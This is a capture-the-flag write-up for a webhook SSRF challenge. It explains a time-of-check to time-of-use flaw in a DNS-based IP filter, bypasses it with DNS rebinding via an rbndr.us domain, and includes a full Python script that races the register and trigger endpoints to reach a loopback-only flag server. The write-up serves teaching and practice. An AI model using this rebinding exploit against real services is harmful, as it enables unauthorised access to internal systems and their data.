


## 0xFUN CTF 2026 - Webhook Service Write-up



### 1. Source Code Analysis

We begin by examining the provided `app.py` to understand the application's architecture. We immediately notice a separate thread spawning a local HTTP server that is not exposed to the public interface.

```python
def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            # ... headers ...
            self.wfile.write(FLAG.encode())

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()
```

The flag is served on `127.0.0.1:5001` via a **POST** request to `/flag`. Accessing this directly from the outside is impossible since it's bound to the loopback interface. This becomes our primary objective: forcing the application to make a request to itself.

### 2. Identifying the SSRF Vulnerability

The application allows users to register webhooks via `/register` and fire them via `/trigger`. However, there is a security filter in place to prevent Server-Side Request Forgery (SSRF).

```python
def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    # ...
    ip = socket.gethostbyname(host)
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback: # ...
        return False, f'IP "{ip}" not allowed'
    return True, None
```

The vulnerability here is a classic **TOCTOU (Time-of-Check to Time-of-Use)** race condition.
1.  **Check:** The app calls `is_ip_allowed()`, which resolves the DNS to check if the IP is safe (Public).
2.  **Use:** The app calls `requests.post()`, which resolves the DNS *again* to actually send the request.

If we can control the DNS resolution to return a public IP during step 1, but switch to `127.0.0.1` during step 2, we can bypass the protection.

### 3. DNS Rebinding Strategy

To exploit this, we use **DNS Rebinding**. We need a domain that answers with a short TTL (Time To Live) of 0, alternating between two IP addresses.

We utilize the `rbndr.us` service. We need to encode two IPs in Hex format:
1.  **Target:** `127.0.0.1` -> `7f000001`
2.  **Bypass:** `8.8.8.8` (Public IP) -> `08080808`

**Payload Domain:** `7f000001.08080808.rbndr.us`
**Target URL:** `http://7f000001.08080808.rbndr.us:5001/flag`

### 4. Automating the Attack

Since DNS rebinding relies on timing and the internal behavior of the resolver, we cannot do this manually. We write a script to automate the process.

**Step 1: Registration**
We spam the `/register` endpoint. We wait for the moment the DNS resolves to `8.8.8.8`, allowing us to pass the `is_ip_allowed` check and obtain a webhook ID.

**Step 2: Triggering**
Once we have a valid ID, we spam the `/trigger` endpoint. We are looking for the specific race condition where the check sees `8.8.8.8`, but the `requests.post` call resolves to `127.0.0.1`.

```python
import requests
import time
import sys

TARGET_HOST = "http://chall.0xfun.org:16963"
# 127.0.0.1 (Target) and 8.8.8.8 (Bypass)
REBIND_DOMAIN = "7f000001.08080808.rbndr.us"
PAYLOAD_URL = f"http://{REBIND_DOMAIN}:5001/flag"

def solve():
    # 1. Register Webhook
    print(f"[*] Registering: {PAYLOAD_URL}")
    webhook_id = None
    while not webhook_id:
        try:
            res = requests.post(f"{TARGET_HOST}/register", data={"url": PAYLOAD_URL}, timeout=3)
            if res.status_code == 200:
                webhook_id = res.json()['id']
                print(f"\n[+] ID: {webhook_id}")
            else:
                sys.stdout.write(".")
                sys.stdout.flush()
                time.sleep(0.5)
        except:
            pass

    # 2. Attack / Trigger
    print(f"[*] Attacking...")
    while True:
        try:
            res = requests.post(f"{TARGET_HOST}/trigger", data={"id": webhook_id}, timeout=3)
            response_text = res.json().get('response', '')
            
            if "0xfun{" in response_text:
                print(f"\n\n[+] FLAG RETRIEVED:\n{response_text}\n")
                break
            elif res.status_code == 400:
                sys.stdout.write(".") # Blocked by filter
            else:
                sys.stdout.write("!") # Hit public IP
            sys.stdout.flush()
        except:
            pass
        time.sleep(0.1)

if __name__ == "__main__":
    solve()
```

### 5. Getting the Flag

We run the exploit script. After several attempts (indicated by `.` and `!`), the DNS resolution aligns perfectly with our TOCTOU requirement, the request is routed to the internal server on port 5001, and the flag is returned.



**Flag:** `0xfun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}`
